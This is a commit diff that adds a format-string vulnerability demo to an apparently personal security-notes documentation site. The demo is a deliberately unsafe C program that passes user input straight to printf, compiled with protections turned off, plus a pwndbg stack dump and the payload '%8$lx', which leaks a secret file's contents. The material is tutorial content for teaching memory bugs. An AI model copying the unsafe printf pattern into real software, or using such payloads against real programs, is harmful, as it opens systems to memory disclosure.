

Before and after one commit to backup-5968426158/blog-code, an MkDocs documentation site: the page built from docs/Memory vulnerabilities.md, in a window 1280 px wide and 1400 px high, scrolled down 32214 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add format string demo

````diff
--- a/docs/Memory vulnerabilities.md
+++ b/docs/Memory vulnerabilities.md
@@ -1295,6 +1295,68 @@ So the attacker can place in user_input characters that allow to manipulate the
 In reading :
 - %x, %p : display the content of the stack (bypass ASLR)
 - %s : interprets a value of the stack as a pointer and dereferences allows the arbitrary reading of memory (or the DOS)
+
+For example if we take the this code snippet :
+```c
+#include <stdio.h>
+int main(int argc, char *argv[]){
+
+    FILE *password = fopen(".asecretfile", "rt");
+    char buffer[32];
+    fgets(buffer, sizeof(buffer), password);
+
+    printf(argv[1]);
+
+    fclose(password);
+
+    return 0;
+}
+/*
+gcc code.c -o code -fno-stack-protector -z execstack -no-pie -Wl,-z,norelro -U_FORTIFY_SOURCE -D_FORTIFY_SOURCE=0 -O0
+*/
+```
+
+If we compile it for x64, we can easily retrieve the secret value :
+```bash
+pwndbg> b *0x00000000004011aa   # BREAKPOINT just on the printf function
+Breakpoint 1 at 0x4011aa
+
+pwndbg> run AAAAAAAAAAAAAA   # Run it with a value
+Starting program: /workspace/code AAAAAAAAAAAAAA
+
+[...]
+
+─────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────────────────────────────────────
+00:0000│ rsp 0x7ffccf543af0 —▸ 0x7ffccf543c48 —▸ 0x7ffccf5441df ◂— '/workspace/code'
+01:0008│-038 0x7ffccf543af8 ◂— 0x200000000
+02:0010│-030 0x7ffccf543b00 ◂— 'HELLLOOOOOOO\n'     # As we can see the value of the .asecretfile is stored in 0x7ffccf543b00
+03:0018│-028 0x7ffccf543b08 ◂— 0xa4f4f4f4f /* 'OOOO\n' */
+04:0020│-020 0x7ffccf543b10 ◂— 0
+05:0028│-018 0x7ffccf543b18 —▸ 0x706752a18fc0 (dl_main) ◂— push rbp
+06:0030│-010 0x7ffccf543b20 ◂— 0
+07:0038│-008 0x7ffccf543b28 —▸ 0x79052a0 ◂— 0xfbad2488
+
+
+pwndbg> x/50xw $sp  # And this addresse start at the 8 bytes of the stack
+0x7ffccf543af0: 0xcf543c48      0x00007ffc      0x00000000      0x00000002
+0x7ffccf543b00: 0x4c4c4548      0x4f4f4f4c      0x4f4f4f4f      0x0000000a
+0x7ffccf543b10: 0x00000000      0x00000000      0x52a18fc0      0x00007067
+0x7ffccf543b20: 0x00000000      0x00000000      0x079052a0      0x00000000
+0x7ffccf543b30: 0x00000002      0x00000000      0x5282624a      0x00007067
+0x7ffccf543b40: 0xcf543c30      0x00007ffc      0x00401156      0x00000000
+0x7ffccf543b50: 0x00400040      0x00000002      0xcf543c48      0x00007ffc
+0x7ffccf543b60: 0xcf543c48      0x00007ffc      0x8b454ab6      0xf1a7ed59
+0x7ffccf543b70: 0x00000000      0x00000000      0xcf543c60      0x00007ffc
+0x7ffccf543b80: 0x004030f0      0x00000000      0x52a30020      0x00007067
+0x7ffccf543b90: 0xfdc14ab6      0x0e5e73f1      0x4f454ab6      0x1169485d
+0x7ffccf543ba0: 0x00000000      0x00000000      0x00000000      0x00000000
+0x7ffccf543bb0: 0x00000000      0x00000000
+```
+
+```
+./code '%8$lx'
+4f4f4f4c4c4c4548    # OOOLLLEH
+```
 
 And in writing :
 - %n writes the number of characters already displayed at the address pointed by the corresponding argument
````
